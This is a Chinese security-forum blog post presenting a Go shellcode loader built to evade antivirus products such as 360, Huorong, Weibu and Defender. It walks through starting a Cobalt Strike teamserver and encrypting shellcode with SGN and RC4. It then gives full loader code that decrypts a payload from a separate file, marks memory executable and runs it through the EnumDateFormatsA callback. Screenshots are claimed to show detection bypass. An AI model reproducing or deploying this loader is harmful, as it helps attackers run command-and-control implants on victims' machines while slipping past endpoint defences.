# 免杀loader1加载器(文件分离版)-先知社区

> **来源**: https://xz.aliyun.com/news/18121  
> **文章ID**: 18121

---

# 一，先放结果

还是老规矩吧，先放结果

## 1.bypass360和360云查杀





## 2.bypass微步(这里没上传过了360那个马，所以是1/24)



## 3.bypass火绒



删9个，留一个测试内存查杀



defender的没有截图到，但是没有关系，我们先跟着流程做一遍，然后进行测试。

​

还是先启动我的cs吧

```
./teamserver 192.168.70.129 yawataa CS4.9-10010.profile 
```



申请有阶段无阶段的都可以，只是有阶段的更容易编译。



raw原生的代码格式



然后又是我们之前的一套流程了(上一篇文章)

先sgn加密->rc4加密->放入loader->批量编译和隐藏黑框。

​

这样我们使用rc4.py那个脚本进行加密后会生成一个sc.txt就是我们的sc文件



​

​

下面我们开始测试一下吧，能正常上线，然后就是批量fuzz编译参数和隐藏黑框了



做好了，简单测试一下

​



# 简单测试

现在测试时间是 2025年5月28日 白天1点34分

​

## 微步0查杀



## bypass360

依然能过



火绒和defender就不测试了，包能过的，这样就不水文章了


​

# load1(文件分离版代码)

```
package main

import (
	"crypto/rc4"
	"golang.org/x/sys/windows"
	"io/ioutil"
	"log"
	"strconv"
	"strings"
	"unsafe"
)

func main() {

	// 1. 读取文件内容
	content, err := ioutil.ReadFile("sc.txt")
	if err != nil {
		log.Fatal(err)
	}

	str := string(content)
	start := strings.Index(str, "[]byte{")
	end := strings.Index(str, "}")

	if start == -1 || end == -1 || end < start {
		log.Fatal("未找到字节数组定义")
	}

	byteStr := str[start+7 : end]
	var sc []byte

	for _, s := range strings.FieldsFunc(byteStr, func(r rune) bool {
		return r == ',' || r == '
' || r == '\r' || r == '\t'
	}) {
		s = strings.TrimSpace(s)
		if s == "" {
			continue
		}

		val, _ := strconv.ParseUint(s, 0, 8)

		sc = append(sc, byte(val))
	}

	kernel32_yawataa := windows.NewLazyDLL("kernel32.dll")
	// 2.获取windows api
	Activeds := windows.NewLazyDLL("Activeds.dll")
	AllocADsMem_yawataa := Activeds.NewProc("AllocADsMem")
	VirtualProtect := kernel32_yawataa.NewProc("VirtualProtect")
	EnumDateFormatsA_yawataa := kernel32_yawataa.NewProc("EnumDateFormatsA")
	RtlCopyMemory := kernel32_yawataa.NewProc("RtlCopyMemory")
	key := []byte("a3cb2tg1y!@#")
	cp, _ := rc4.NewCipher(key)

	// 解密Shellcode
	decrypted := make([]byte, len(sc))
	cp.XORKeyStream(decrypted, sc)
	addr, _, _ := AllocADsMem_yawataa.Call(uintptr(len(decrypted)))
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&decrypted[0])), uintptr(len(decrypted)))

	oldProtect := 0x40
	VirtualProtect.Call(addr, uintptr(len(decrypted)), 0x40, uintptr(unsafe.Pointer(&oldProtect)))
	EnumDateFormatsA_yawataa.Call(addr, 0, 0)
	// 7.关闭 DLL

}

```

​

​

# 浅谈

其实加载器的工作原理大概就是 申请内存->讲sc放入内存中->让内存进行执行

​

而简单的免杀，其实就是围绕在shellcode的处理和Windows api的选择

​

shellcode的处理我们都知道有那些方式，比如aes加密，rc4加密，异或，sgn加密，文件分离，网络分离 等等

而windows api 则选择具体相同效果的函数，这样杀软还没有增加到特征库里面

​

就比如我这次的load1代码

申请内存的代码是 AllocADsMem() 这个Windows api

​

AllocADsMem() 是 Windows API 中与 **Active Directory Service Interfaces (ADSI)** 相关的一个内存管理函数，主要用于在 ADSI 编程中分配内存。

实现的效果是一样的。

​
